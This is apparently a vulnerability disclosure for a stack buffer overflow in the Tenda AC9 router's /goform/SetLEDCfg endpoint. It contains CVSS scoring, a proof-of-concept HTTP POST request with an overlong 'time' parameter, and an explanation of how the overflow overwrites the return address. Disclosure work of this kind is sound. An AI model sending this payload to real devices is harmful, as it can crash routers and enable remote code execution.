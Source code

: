 # Tenda AC9 Wireless Router /goform/SetLEDCfg time Stack Overflow

## 1 Basic Information

- Vulnerability Type: Buffer overflow
- Vulnerability Description: There is a buffer overflow vulnerability in the Tenda AC9 wireless router, firmware version V15.03.05.19. Its /goform/SetLEDCfg implementation has a security vulnerability in the processing of the time POST key parameter, allowing remote attackers to use the vulnerability to submit special requests, resulting in buffer overflow, which can seriously lead to the execution of arbitrary OS commands.
- Device model:
   - Tenda AC9 Wireless Router
   - Firmware Version: V15.03.05.19

## 2 Vulnerability Value

- Stable Reproducibility: yes
- Vulnerability Score (refer to CVSS)
   - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator ?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov /vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploit Conditions
   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission constraints: identity authentication is required
     - User interaction: no victim interaction required
   - Scope of Impact: Changed (can affect components other than vulnerable components)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of Exploits: stable recurrence
   - Whether the product is configured by default: there are loopholes in the functional components that are enabled from the factory
- Exploit Effect
   - Denial of Service
   - Remote Code Execution (RCE)

## 3 PoC

```http
POST /goform/SetLEDCfg HTTP/1.1
Host: 10.37.129.2:8081
Connection: keep-alive
Content-Length: 445
Accept: */*
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.37.129.2:8081
Referer: http://10.37.129.2:8081/system_led.html?random=0.7969342657337226&
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; password=sou23f

ledType=close&timetimetimetimetimeimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetimetime=&ledCloseType=undefined
```

* Before
  * ![](1.png)
* Send PoC
  * ![](2.png)
* After
  * ![](3.png)

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell.

## 4 Vulnerability Principle

When the web management component receives a POST request, its /goform/SetLEDCfg component implements a security vulnerability in processing the time POST key parameter. The length of the time parameter key can be any length and is placed on the stack without checking, resulting in a stack overflow. Attackers can use this vulnerability to overwrite the return address, and then be exploited to achieve the effect of remote arbitrary command execution.
